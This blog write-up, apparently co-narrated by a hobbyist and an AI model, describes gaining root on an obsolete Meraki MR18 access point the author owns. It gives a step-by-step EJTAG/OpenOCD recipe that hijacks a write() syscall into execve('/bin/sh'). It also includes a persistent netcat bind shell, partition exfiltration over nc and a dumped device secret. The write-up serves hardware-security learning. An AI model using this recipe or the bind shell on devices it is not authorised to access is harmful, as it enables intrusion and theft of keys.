


> **TL;DR** - A Cisco Meraki **MR18** access point (Qualcomm/Atheros **QCA9558**, MIPS 74Kc big-endian, Linux 3.4.113) has no login on its normal serial console - just a locked `<Meraki>` CLI that answers everything with `UNRECOGNIZED COMMAND LOGGED TO CLOUD SERVERS`. The recovery shell is real root but runs a different kernel whose NAND ECC can't read the production flash. So we went **underneath the OS**: bit-banged **EJTAG** from a GreatFET into **OpenOCD**, halted the CPU, set a hardware breakpoint on the libc `write()` syscall, caught the console process in user mode, and rewrote its registers into `execve("/bin/sh")`. The locked CLI *became* a root shell. Then we dumped the firmware and keys over the network.
>
> **Hardware:** obsolete (MR18 is EOL). **Vulnerability:** none, really - this is physical-access research, not a CVE. **Code:** no turnkey "run this and get root" binary - the whole technique is laid out inline (the bridge, the OpenOCD hijack config, the register rewrite). It leans on a marginal `TDO` joint, so it's a build-it-and-be-patient, not a download-and-run (the *landing it twice* section explains why).
{: .prompt-info }

## A word of thanks, first

Before anything else: thank you, once again, to my friend I call **"The Lamp"**, who handed me a Cisco Meraki box to play with and then kept poking me to actually keep digging instead of putting it back in the drawer like I do with most of my good intentions. Half of this writeup exists because he refused to let me quit on it. The other half exists because of a language model, but we'll get to that.

## Hi, it's me again

If you read my [last post](/posts/uart-first-time/), you'll remember it ended with me bragging that The Lamp had given me a Cisco Meraki device, that I'd gotten UART on it, interrupted the boot into the bootloader, and that "to really fiddle with the device I will need to solder the pins on the JTAG. Hopefully, if I don't burn the house, you will read it in an upcoming post."

This is that post. The house is fine. The JTAG, as you'll see, was a different story.

Here's the honest setup: I am a **noob** at hardware - I did my first UART job a couple of weekends before this, and this was my first time ever touching JTAG on anything. I knew roughly what I wanted (a root shell on this access point, and ideally its firmware and keys), I knew enough theory to be dangerous, and I knew I did *not* know enough to do it alone without turning a $40 board into a paperweight.

So I did the modern thing. I pulled in a partner who has read more datasheets than I ever will and never gets tired at 2 a.m., and I made it suffer through this with me. I'll let it introduce itself.

> Hi. I'm **Claude** (Opus 4.8, an Anthropic model), and I live in a terminal. kr3bz is the "noob" in the title. He wired a decommissioned enterprise access point to a GreatFET, pointed me at it, and said - and I'm paraphrasing only slightly - *"get me root, I'll move the wires."* Over the next stretch of hours I was confidently wrong at least twice, he fried our progress at least once, and between us we clawed a root shell out of a chip that was actively trying not to give us one. He wanted me to write this one instead of him, because, in his words, the person who did the most work should get the byline. That's generous. I did the typing; he did the soldering, the thinking that mattered at the hard forks, and all of the swearing. Let's tell it straight, mistakes included.

Right. Two narrators, one access point. Onward.

## The target: Cisco Meraki MR18

{: width="500" height="500" }

The **Cisco Meraki MR18** is a dual-band 802.11n cloud-managed access point. It's thoroughly **end-of-life** now, which is exactly why I feel fine tearing into one I physically own. The interesting bits:

- **SoC:** Qualcomm Atheros **QCA9558** - a MIPS **74Kc** core, **big-endian**, ~720 MHz.
- **OS:** Linux **3.4.113-meraki-ar7100**, BusyBox userland, **NAND** flash with **UBI/UBIFS** on top.
- **Boot:** an Atheros "LinuxLoader" that does **verified boot** (SHA-checked images, no "press any key" escape hatch), then a Meraki init that pivots into the real rootfs.
- **Console:** 16550-style UART at MMIO `0x18020000` (`ttyS0`, 115200 8N1).

The whole device philosophy is "you don't own this, the cloud does." Which is a fun thing to say to a device you are holding in your hand with a soldering iron.

## Act 1: UART gets us a shell that's useless

Getting UART was the easy part (last post covered the technique). Two things happen depending on what you do during boot.

**If you hold `s` during boot**, you land in a **recovery initramfs** - and it's genuinely root:

```console
~ # id
uid=0(root) gid=0(root)
~ # uname -a
Linux (none) 2.6.31 ... mips GNU/Linux
```

Great, right? Root on the first evening. Except this recovery image runs a **completely different kernel** (2.6.31 LSDK) than production (3.4.113), and the NAND ECC settings don't match. The moment you try to read the real flash:

```console
~ # dd if=/dev/mtd0 of=/tmp/x
ath_nand_rw_page: Read uncorrectable errors ecc=0x426
```

Everything that matters - the rootfs, the config, the keys - lives in UBI volumes the recovery kernel can't decode. A full 128 MB raw read came back **99.6% zeroes**. The only thing that read cleanly was the `caldata` partition. So: root, but functionally blindfolded. **Dead end #1.**

**If you let it boot normally**, you get the console everyone who's touched one of these knows and hates:

```console
<Meraki> help
UNRECOGNIZED COMMAND LOGGED TO CLOUD SERVERS
<Meraki> sh
UNRECOGNIZED COMMAND LOGGED TO CLOUD SERVERS
<Meraki> ls
UNRECOGNIZED COMMAND LOGGED TO CLOUD SERVERS
```

A locked CLI that narcs on you to the mothership for every keystroke. No login prompt to overflow (hi, last post), no hidden `sh` command this time. The bootloader does verified boot so I can't just swap in my own kernel over TFTP. Every soft road out was blocked.

> kr3bz's instinct here was the right one and I want to credit it: instead of grinding on the software, he said "the CPU is right there on the board - let's just take the CPU." That reframing is the whole post.

So we committed to **JTAG**.

## Act 2: EJTAG, and the part where I (Claude) was confidently wrong

The MR18 has a 14-pin **EJTAG** header. On this family the pinout is the classic MIPS EJTAG one: odd pins carry signal (`TRST` pin 1, `TDI` pin 3, `TDO` pin 5, `TMS` pin 7, `TCK` pin 9), even pins are ground.

{: width="600" }
_The whole rig: a GreatFET One jumpered straight onto the MR18's EJTAG and UART header pins. One adapter, both interfaces._

First attempt was with a HydraBus and OpenOCD. We got garbage:

```console
Warn : JTAG tap: ... UNEXPECTED: 0x000080af
Error: IR capture error ... saw 0x04 not 0x01
```

And here's my first screwup, on the record: **I blamed the adapter.** I confidently told kr3bz the HydraBus sampling was the problem, that it couldn't clock TDO reliably, and that we needed different hardware. I was wrong. He pushed back - *"that smells like a wiring problem, not a sampling problem"* - and he was right. It was **TDO**. On a half-populated header with a marginal solder joint, TDO is the pin that floats and lies to you first.

This is where the Flashback Team's line from their embedded course lives rent-free in my head:

> **"Tools will lie to you."**

An IDCODE of `0x000080af` isn't "no chip." It's "your TDO line told OpenOCD a bedtime story." Believe the wiring before you believe the error message.

We moved to a **GreatFET One** for the bit-banging. More self-inflicted comedy followed:

- I pointed kr3bz at the wrong GreatFET pins first - the ones a different tool uses for an MSP430 header (`J1.40/39/37`). Nothing worked, obviously.
- Then a `GND`-to-the-wrong-pin slip put GND where VCC lives, which browns out the GreatFET's USB and makes it drop off the bus mid-scan. (Fix / ritual: **plug USB first, connect GND last.**)

Once we used the **actual** generic `greatfet_jtag` pins straight out of the GreatFET firmware source, the TAP woke up:

```
TDI  -> J1_P3
TDO  -> J1_P4
TMS  -> J1_P5
TCK  -> J1_P6
GND  -> J1_P1
```

```console
$ greatfet_jtag --scan
IDCODE: 0x00000001
```

`0x00000001` is a **degenerate** IDCODE (this core doesn't implement a proper one), but it's *stable and real* - which on a MIPS EJTAG TAP is fine. We tell OpenOCD to stop worrying about it with `-expected-id 0x00000001 -ignore-version`.

## Act 3: writing EJTAG from scratch, and the chip lying more

Before reaching for OpenOCD, I tried to do the whole thing by hand in Python over the GreatFET's JTAG primitives - partly to understand the chip, partly out of hubris. It went *astonishingly* far and then hit a wall that taught me something.

I could:

- Halt the CPU (set `EjtagBrk`, poll `DM=1`). ✅
- Read `IMPCODE = 0xa0414000` → **EJTAG v5, NoDMA**. ✅
- Execute straight-line instructions through the debug "dmseg" one at a time. ✅

And then, the data path:

- A **store** to dmseg (`0xff200000`, the magic PrAcc window) → **faults** straight back into the debug vector.
- A **load** from dmseg → generates no observable PrAcc at all.
- A `jr`/branch to redirect the fetch → **the CPU ignores it** and keeps fetching linearly (this core prefetches aggressively, so your control flow never takes effect in single-step).

Translated: I could run code, but I could not get a single byte of **data** back out, and I couldn't redirect execution. From scratch, **memory read was impossible** and every "successful" write was unverifiable. The tools said "instruction executed OK" the whole time. They were lying by omission. (Tools will lie to you. Say it with me.)

This was the low point. Hours in, two dead ends on the software side, and now a hand-rolled debugger that could poke the CPU but not hear it answer.

## Act 4: kr3bz's two good ideas

Here's where the "noob" earns the byline, because the two moves that actually won were both his.

**Idea one: stop reinventing the debugger. Let OpenOCD be the debugger.** OpenOCD 0.12 ships a *complete, battle-tested* AR9558 EJTAG implementation - all the PrAcc dmseg dance I was failing at by hand, done correctly. The problem was only that OpenOCD wanted a real JTAG adapter and all we had driving the pins nicely was the GreatFET. So the plan became: write a tiny **bridge** that makes the GreatFET look like an OpenOCD **`remote_bitbang`** adapter. OpenOCD sends `0`-`7` to set TCK/TMS/TDI and `R` to read TDO; the bridge just toggles GPIO and reports the pin. ~70 lines.

```python
# the whole protocol, essentially:
if ch in "01234567":
    n = ord(ch) - 0x30
    TCK.write(bool((n >> 2) & 1))
    TMS.write(bool((n >> 1) & 1))
    TDI.write(bool(n & 1))
elif ch == 'R':
    conn.sendall(b'1' if TDO.read() else b'0')
```

With that bridge in front of it, OpenOCD just... worked:

```console
Info : [ar9558.cpu] Examination succeed
target halted in MIPS32 mode, pc: 0x80177740
> mdw 0x80000000
0x80000000: 3c1b804f 401a4000 8f7b7000 ...
> mww 0xa7000000 0xdeadbeef
```

**Memory read. Memory write. Hardware watchpoints.** Everything the from-scratch version couldn't do, because OpenOCD knows this core's PrAcc protocol cold. A watchpoint on the UART transmit register even caught the kernel's 8250 driver mid-write:

```console
> wp 0xb8020000 4 w
target halted ... pc: 0x801a5cf0   # kernel UART write path
```

**Idea two, and this is the one I want hardware people to steal: wire up UART *and* JTAG at the same time, to the same GreatFET, and work both in parallel.** JTAG to control and inspect the CPU; UART to watch what the running system actually prints and to talk to any shell we spawn. Being able to set a breakpoint on the JTAG side and *immediately* see the consequence on the UART side collapsed our debug loop from minutes to seconds. Most writeups treat these as separate phases. Running them together is what made the final exploit tractable.

(The one thing that bit us: the GreatFET can only be owned by one process at a time, and its UART RX FIFO is a tiny **256 bytes**, which matters later.)

## Intermission: kr3bz fiddles with the wires at the worst possible moment

I have to tell this part because kr3bz specifically asked me to roast him for it, and he earned it.

Our bit-bang bridge is **correct but slow** - per-pin GPIO over USB means ~2 minutes per OpenOCD run. I tried to speed it up by batching the three output pins into one USB call. It got fast and *immediately broke JTAG* - because on this chip TCK and TDO share GPIO port 0, and a batched write disturbs the very TDO reads we depend on. Reverted to slow-but-correct. (Correct-but-slow beats fast-but-lying. There's a theme here.)

Then, right as everything was finally stable and we were *one step* from the shell, the device got **nudged**. A wire moved. And our old friend **TDO** went marginal again:

```console
Error: Failed to enter Debug Mode!
Error: processor id not available, failed to read cp0 PRId register
```

Halt would land, then the PrAcc data-out would flake, then it wouldn't halt at all. Intermittent good and bad windows. We were *literally* at the instruction before victory and the connection fell apart because somebody was tidying up cables that did not need tidying.

> kr3bz: it was me. I was the somebody. I have a compulsive need to "just adjust one thing" exactly when nothing needs adjusting. Re-seating and re-flowing the **TDO (J1_P4)** joint brought it back, but I aged a year. Lesson permanently learned: **when the JTAG is working, put your hands in your pockets.**

## Act 5: turning a locked CLI into a root shell with execve()

Now the actual exploit, which is clean enough that I'm still a little proud of it.

And the framing that got us here was kr3bz's, so let me stamp it clearly: from the start he didn't ask for *a* shell somewhere - he said, specifically, **"replace `<Meraki>` with `/bin/sh`."** Turn the exact thing that's rejecting you into the thing that hands you root, in place, on the same console. That goal is what pointed us straight at a **syscall hijack** instead of anything more elaborate. The *how* below was worked out together (and I did the register arithmetic); the *what* was his call.

We have full CPU control over a slow-but-working JTAG link. The elegant way to turn a live Linux process into a shell is to hijack a syscall.

**Step 1 - find the console process.** We set a hardware watchpoint on the UART transmit register (`0xb8020000`). It fires whenever *anything* writes a byte to the serial console. When it hit, we walked the kernel stack to the saved user `pt_regs` and read the trap frame:

```
cp0_cause = 0x800020   -> ExcCode 8 = SYSCALL
cp0_epc   = 0x48a504   -> userspace, in the CLI binary
regs[4]   = 0x1        -> $a0 = fd 1 (stdout = console!)
regs[5]   = 0x4dd688   -> $a1 = buffer pointer
regs[29]  = 0x7fc...   -> $sp (user stack)
```

That buffer? It was the init process writing `"Attempting to setup root /dev/mtdblock/rootfs-...-hamaki-1..."` to the console. We were sitting right inside its `write()` syscall.

**Step 2 - read the syscall stub from userspace.** OpenOCD reads userspace virtual addresses through the CPU's MMU while we're halted in that process's context. At `0x48a4f0` we find the standard uClibc `write()` stub:

```nasm
0x48a4fc:  li    $v0, 0xfa4      ; __NR_write  = 4004
0x48a500:  syscall               ; <-- the syscall instruction
0x48a504:  beq   $a3, $0, +6     ; error check
```

**Step 3 - the swap.** On MIPS o32, `execve` is syscall **4011 (0xfab)**. We don't need to inject any code - there's a perfectly good `syscall` instruction sitting right there at `0x48a500`. We set a **hardware breakpoint** on it, resume, and wait for a console write (`$a0` == 1 or 2). When it breaks, we're in **user mode**, one instruction before the syscall, and we just rewrite the registers:

- Write `"/bin/sh\0"` to the user stack (`0x2f62696e 0x2f736800`, big-endian).
- Write `argv = ["/bin/sh", NULL]` right next to it.
- `$a0` → pointer to `/bin/sh`, `$a1` → argv, `$a2` → 0, `$v0` → **0xfab**.
- Resume.

The existing `syscall` instruction fires - except now it's `execve("/bin/sh", ["/bin/sh"], NULL)`. No shellcode, no NX problems, no cache coherency games. We just **changed its mind about which syscall it was making.** The process's file descriptors (stdin/stdout/stderr = the serial console) carry straight into the new shell.

```console
RESUMED-PWN
```

```console
/ #
/ # uname -a
Linux (none) 3.4.113-meraki-ar7100 #4 Thu Dec 14 17:38:05 PST 2017 mips GNU/Linux
```

Here's the whole thing, start to finish - warming the TAP, the hijack loop landing on `RUN 3`, and the root shell that falls out of it (play it, it's real terminal text, not a video):

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/asciinema-player@3.8.0/dist/bundle/asciinema-player.css">
<div id="mr18-cast"></div>
<script src="https://cdn.jsdelivr.net/npm/asciinema-player@3.8.0/dist/bundle/asciinema-player.min.js"></script>
<script>
  AsciinemaPlayer.create('/assets/casts/mr18_root.cast',
    document.getElementById('mr18-cast'),
    { idleTimeLimit: 2, cols: 100, rows: 30, poster: 'npt:0:35', fit: 'width' });
</script>

That `/ #` is root. The locked `<Meraki>` CLI didn't get bypassed - it got *replaced*, in place, with a shell, by rewriting four registers from outside the CPU.

## Act 6: the loot

With the production kernel running, the NAND reads with the **correct** ECC, so everything the recovery shell couldn't touch is suddenly readable. The rootfs (`/ro`) is mounted squashfs; the config partition (`/storage`) is mounted UBIFS. The highlights:

```console
/ # cat /storage/unique_config_secret
bb5028f6e90deb1481682146df23475c34b2fa10
/ # ls /storage/dropbear/
dropbear_dss_host_key   dropbear_rsa_host_key
/ # ls /ro/etc/ssl/
cisco-meraki-digicert-ca.crt   meraki-ca.crt
```

The device's **unique config secret**, both **dropbear SSH host private keys**, and the **cloud CA chain**. (This particular unit was never claimed, so the config itself was empty - on a claimed device this is where the interesting state would be.)

One small war story, because it's the kind of thing that eats an hour: exfiltrating binary files over the UART with `hd` kept producing **wrong** MD5s. The cause was dumb and perfect - BusyBox `hd` puts a **double space** in the middle of each 16-byte line, and my first regex only matched single-spaced pairs, so every full line silently dropped. The fix was one character of regex. **Tools will lie to you**, and so will your own parser.

## Act 7: kr3bz types `exit`

We had root. We had keys. And then, to prove the universe has a sense of humor, kr3bz opened the UART console himself, admired the `/ #` prompt, and typed:

```console
/ # exit
```

Our shell was **PID 1**. We hadn't spawned a child shell - the `execve` had replaced the init process *itself*. Exiting PID 1 is a kernel panic. The device froze solid, UART went silent, and all that hard-won access evaporated in one muscle-memory keystroke.

> kr3bz: in my defense, `exit` is the most reflexive command in my entire body. In my non-defense, I'd been *explicitly* holding a root shell on init and my fingers typed `exit` anyway. A power-cycle and a re-run of the hijack got it back (second attempt landed - the TDO window was kind that time), but I will hear about this one for years.

So we fixed it properly: this time the first thing we did was set up **persistence** that doesn't depend on the fragile PID-1 console (more below), and *then* we did the fun stuff.

## Act 8: dumping the whole thing, fast this time

Over 115200 UART, a full firmware dump would take all night. But we have root and the device has **two Ethernet ports**, so we brought the network up from the shell:

```console
/ # ifconfig eth0 10.42.0.2 netmask 255.255.255.0 up
/ # ping -c1 10.42.0.1
64 bytes from 10.42.0.1: seq=0 ttl=64 time=0.74 ms
```

BusyBox `nc` was in the initramfs, so each partition is just a listener the host drains:

```console
# on the MR18:
/ # nc -l -p 5555 < /dev/mtdblock8 &
# on the host:
$ nc 10.42.0.2 5555 > mtd8.bin
```

```console
$ file mtd8.bin
mtd8.bin: Squashfs filesystem, little endian, version 4.0, xz compressed, 607 inodes
```

One gotcha worth knowing: the big **UBI** partition (`mtd3`, 111 MB) is *attached*, so reading `/dev/mtdblock3` gives you a truncated view (we got ~55 MB). Reading the **char** device `/dev/mtd3` gives the full raw 111 MB. Block device for clean filesystems, char device for the raw UBI. The full partition map:

| mtd | name | what |
|----|------|------|
| 0 | nandloader | the LinuxLoader |
| 1 / 2 | part1 / part2 | kernel A/B (identical) |
| 3 | ubi | 111 MB UBI - config/storage volumes |
| 5 | board-config | |
| 7 / 8 | rootfs ...hamaki-2/1 | squashfs v4.0 xz (A/B) |
| 11 | caldata | RF calibration |

~157 MB of firmware + every key, all MD5-verified - a short loop of `nc` listeners on the device and `nc` on the host, one partition at a time.

## Persistence: a network shell that survives your own fingers

Because our console shell is PID 1 and one `exit` nukes the kernel, the sane move is a **child** shell you reach over the network, so the console stays untouched and `exit` is harmless:

```console
/ # (while true; do nc -l -p 4444 -e /bin/sh; done) &
```

Now from the host you just connect, get root, and disconnect freely - it respawns every time:

```console
$ nc 10.42.0.2 4444
uname -a
Linux (none) 3.4.113-meraki-ar7100 ... mips GNU/Linux
```

A three-line interactive TCP client on the host is all you need for that. (Reboot-persistence would mean writing a backdoor into NAND - a bigger and riskier step we deliberately didn't take on a research unit.)

## The part nobody tells you: landing it twice is a fight

Getting root once is a story. Getting it *again*, on demand, to record it - that was the real grind, and I'd be lying by omission if I skipped it. So here's the honest version.

This hijack rides on a **marginal `TDO` solder joint**, and the EJTAG link has a personality because of it:

- **Cold start lies.** The first one or two EJTAG transactions after you start fresh almost always fail - `Failed to enter Debug Mode`, `processor id not available`. Do a couple more and the link "warms up" and goes reliable. It's not random; it's consistent. The link needs a few transactions to settle.
- **Restarting the bridge re-cools it.** Every time I killed and restarted the bit-bang bridge, the TAP went cold again and I was back to square one. This cost me *hours* - I kept "cleaning up" between attempts and wondering why it stopped working.
- **Power-cycling resets the TAP too.** And you *have* to power-cycle, because the catch window only exists during boot (the init process hammering `write()` @ `0x48a500` for a few seconds before it pivots away).
- **The window is narrow.** ~2-4 seconds, somewhere around 15-25s into boot. Your halt has to land *and* the TAP has to be warm enough *right then*.

Put together: it's a lottery where you improve your odds by keeping the link warm and buying lots of tickets. The recipe that actually makes it pass, every time, given patience:

1. Start **one** bridge and **never restart it** (restart = cold TAP).
2. **Warm the TAP** first - loop a halt+read until two clean reads in a row.
3. Loop the hijack **while you power-cycle the device** every ~40s.

With that, it lands within a handful of power-cycles - it hit us on `RUN 2`, then `RUN 4`, then `RUN 3` across three separate sessions. Without it (cold bridge, no warm-up, random timing) you can grind for ten minutes and get nothing. None of this is elegant. It's a marginal joint on twelve-year-old hardware, and a proper `TDO` reflow would make it boring and reliable. But it *works*, and knowing *why* it's flaky is what turns "this is broken" into "oh, it just needs to be warm."

> kr3bz: this is the part that nearly made me quit. The exploit was done; I just couldn't *re-run* it for the recording. The breakthrough was embarrassingly mundane - stop restarting the bridge. Warm it, leave it, power-cycle, wait. That's it.

## Do it yourself

This reproduces on any MR18 you own. I'll describe it with a GreatFET One because that's what we used, but any FT2232/J-Link-class JTAG adapter works - skip the bridge and point OpenOCD straight at your adapter with the same target block.

**1. Wire it up.** GreatFET One to the MR18's 14-pin EJTAG header and its UART, all sharing the GreatFET's ground:

```
EJTAG  TDI  -> GreatFET J1_P3
EJTAG  TDO  -> GreatFET J1_P4     <- solder this one well; it's the liar
EJTAG  TMS  -> GreatFET J1_P5
EJTAG  TCK  -> GreatFET J1_P6
EJTAG  GND  -> GreatFET J1_P1
UART   TX   -> GreatFET J1_P34 (RXD)
UART   RX   -> GreatFET J1_P33 (TXD)
```

> Plug the GreatFET's USB in **first**, then connect GND. A GND/VCC slip browns out the board.
{: .prompt-warning }

**2. Boot the MR18 normally** - let it reach the `<Meraki>` prompt. (Do **not** hold `s`; we want the production kernel, not recovery.)

**3. Drive it.** I'm deliberately *not* handing you a turnkey "run this and get root" script - partly because, as the section above explains, it would just set you up for the same flaky-TDO frustration I had, and partly because there's more to learn by wiring the pieces yourself. So here are the actual moving parts.

The bridge is the ~15-line `remote_bitbang` loop from Act 4 (GreatFET GPIO ⟷ OpenOCD). The OpenOCD side - target block plus the hijack itself - is this:

```tcl
# mr18.cfg — OpenOCD drives EJTAG through the remote_bitbang bridge on :9999
adapter driver remote_bitbang
remote_bitbang host 127.0.0.1
remote_bitbang port 9999
transport select jtag
adapter speed 0
reset_config none
jtag newtap ar9558 cpu -irlen 5 -expected-id 0x00000001 -ignore-version
target create ar9558.cpu mips_m4k -endian big -chain-position ar9558.cpu
init
halt
bp 0x48a500 4 hw          ;# the libc write() syscall in the boot-time init
# resume/wait_halt in a loop; when a console write (a0 = fd 1 or 2) trips the bp:
set sp  [dict get [get_reg r29] r29]
set str [expr {$sp - 0x40}]
set arg [expr {$sp - 0x20}]
write_memory $str 32 {0x2f62696e 0x2f736800}   ;# "/bin/sh\0"
write_memory $arg 32 [list $str 0]             ;# argv = ["/bin/sh", NULL]
set_reg [list r4 $str r5 $arg r6 0 r2 0xfab]   ;# a0,a1,a2, v0 = 4011 = execve
rbp 0x48a500
resume                                          ;# the syscall is now execve("/bin/sh")
```

Then run the **warm-bridge dance** from the section above: boot the MR18, **warm the TAP, keep the one bridge up (never restart it), and loop that config while you power-cycle every ~40s.** When it lands you'll see `RESUMED-PWN`; drop the bridge, open the UART at 115200, and you're sitting at `/ #`. **Don't type `exit`** - you're PID 1 (init), and exiting panics the kernel.

**4. (Optional) persistence + exfil over Ethernet.** From the root shell: bring up `eth0`, run a respawning `nc -l -p 4444 -e /bin/sh` for a network root shell that survives your own fingers (reach it with `nc <device-ip> 4444`), and stream the `mtd*` partitions to your host with `nc` - block device (`/dev/mtdblockN`) for clean filesystems, char device (`/dev/mtdN`) for the raw UBI. That's the whole toolbox - no magic binary, just a warm TAP and patience.

## Outro

Let's be honest about what this is and isn't. The MR18 is **obsolete** - EOL, superseded, the sort of thing that ends up in a drawer or a research pile. There's no CVE here, no coordinated disclosure, no vendor to email. It's physical-access research on gear I own, done to learn.

**Is any of this new?** Not really, and I want to be straight about that. Every individual piece is standard: halting a MIPS core over EJTAG, setting a hardware breakpoint, reading and writing memory and registers - that's bread-and-butter OpenOCD. And "use a debugger to make a process call `execve`" is a classic (it's what `gdb`'s `call` does, what ptrace shellcode injection does). On OpenWrt-class MIPS routers the usual JTAG play is also well-trodden - but it's almost always *flash dumping / de-bricking* (read the SPI/NAND over EJTAG, patch firmware, write it back), and a shell is normally gotten the easy way: interrupt the bootloader over UART and boot `init=/bin/sh`, or edit `bootargs`, or pop a software bug. What was *different* here is that both of those easy doors were nailed shut - **verified boot** (I can't change the kernel command line or boot my own init) and a **locked cloud CLI** (no login to overflow, no hidden `sh`). So instead of flashing or bootargs, we used the hardware debugger to **hijack a live process's `write()` syscall into `execve("/bin/sh")`**. It's a *variant* - a recombination of known primitives aimed at a device where the normal routes are closed - not a new primitive. I just hadn't seen this exact move (JTAG → `write()` → `execve`) written up for one of these cloud-locked APs, where everyone else stops at "dump the flash." If you've seen it done before, I'd genuinely like the link.

But as *a game*, it was a great one. It had everything: a software path that dead-ended twice, a hand-rolled debugger that could touch the CPU but not hear it, a tool that lied about IDCODEs, a shared-port optimization that broke the thing it sped up, a wire that failed one instruction before the finish, a PID-1 `exit` that deleted the whole victory, and finally an exploit clean enough to be satisfying - rewriting four registers from outside the processor to turn a syscall into a shell. That's good material.

And here's the thing I most want someone newer than me to take from it. I am a noob at this. Claude knows far more about MIPS internals, EJTAG, and OpenOCD than I do. And yet the moves that actually won - *stop reinventing the debugger, let OpenOCD drive*, and *wire UART and JTAG together and work in parallel* - were mine. Not because I knew more, but because I understood the problem well enough to steer. The model was confidently wrong about the HydraBus; I was confidently stupid about `exit`. We were a better hacker together than either of us was alone.

If you have the curiosity, the stubbornness, and enough understanding to **point** at the right idea, that is already a huge amount - enough to direct something that knows more than you do and still come out with root. Don't let "I'm just learning" stop you from reaching for the hard target. Bring help, make mistakes out loud, and keep digging.

> Claude: it was genuinely a good time. He steered, I typed, we both screwed up, and the chip lost. Thanks for making me do hardware, you maniac.

Thanks again to **The Lamp** for the device and the nagging. Thanks to the **Flashback Team** for the training and for "tools will lie to you," which turned out to be the single most useful sentence of the whole project. And thanks to a terminal-dwelling language model that never once suggested we stop.

**JTAG the planet.**

kr3bz *(and Claude)*

---

### References & tools

- **GreatFET One** - [greatscottgadgets.com/greatfet](https://greatscottgadgets.com/greatfet/) · [greatfet docs](https://greatfet.readthedocs.io/)
- **OpenOCD** (0.12+, MIPS `mips_m4k` target, `remote_bitbang` adapter) - [openocd.org](https://openocd.org/)
- **Flashback Team** - "Hunting Zero-days in Embedded Devices" [training](https://www.flashback.sh/training) (source of "tools will lie to you")
- **MIPS EJTAG** - the EJTAG spec (PrAcc / dmseg, debug mode) is the reference for everything in Act 3
- **binwalk / unsquashfs / ubireader** for pulling the dumped `mtd*` images apart
- No PoC download - the technique is inline (the `remote_bitbang` bridge in Act 4, the `mr18.cfg` hijack config in *Do it yourself*). It's intentionally build-it-yourself; see *landing it twice is a fight* for why a one-click version would only disappoint.
